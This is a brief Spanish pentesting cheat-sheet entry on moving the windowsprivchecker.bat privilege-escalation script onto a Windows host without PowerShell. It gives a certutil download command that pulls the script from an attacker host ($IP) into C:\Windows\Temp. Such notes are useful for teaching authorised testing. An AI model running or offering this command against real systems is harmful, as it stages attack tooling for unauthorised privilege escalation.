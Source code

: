 ## Windowsprivchecker.bat

Utilizado para Windows sin Powershell
Pasar a la maquina 
´´´ certutil.exe -urlcache -split -f "http://$IP/windowsprivchecker.bat" C:\Windows\Temp\privesc.bat < recomendacion por permisos de escritura ´´´

